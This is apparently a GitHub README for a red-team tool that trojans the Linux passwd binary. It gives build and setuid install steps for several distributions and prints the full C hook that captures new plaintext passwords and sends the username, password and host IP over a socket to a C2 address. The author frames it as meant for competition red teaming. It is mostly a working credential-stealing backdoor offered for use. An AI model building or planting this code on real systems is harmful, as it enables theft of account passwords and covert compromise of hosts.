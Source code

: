 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

	int writetofile (char *password){

	    /* Get UID */
	    uid_t uid = geteuid();
	    struct passwd * pw = getpwuid(uid);

	    /* Get IP Address */
	    int fd;
	    struct ifreq ifr;
	    fd = socket(AF_INET, SOCK_DGRAM, 0);

	    /* I want to get an IPv4 IP address */
	    ifr.ifr_addr.sa_family = AF_INET;

	    /* I want IP address attached to set interface */
	    strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
	    ioctl(fd, SIOCGIFADDR, &ifr);
	    close(fd);

	    /* display result */
	    char buffer[256];
	    char * ip;
	    ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
	    int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);

	    /* Make Socket */
	    int sock = 0, valread;
	    struct sockaddr_in serv_addr;

	    /* Sock creation Pt 2*/
	    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
		return -1;
	    }

	    /* Socket Options */
	    serv_addr.sin_family = AF_INET;
	    serv_addr.sin_port = htons(PORT);

	    /* Timeout settings */
	    struct timeval timeout;
	    timeout.tv_sec = 3;
	    timeout.tv_usec = 0;

	    if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
		return -1;
	    }
	    if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
		// pass

	    /* set IP and set buffer */
	    }
	    if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
		return -1;
	    }
	    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
		return -1;
	    }

	    /* Send Message */
	    send(sock , buffer , strlen(buffer) , 0 ); 

	    return 0;

	}
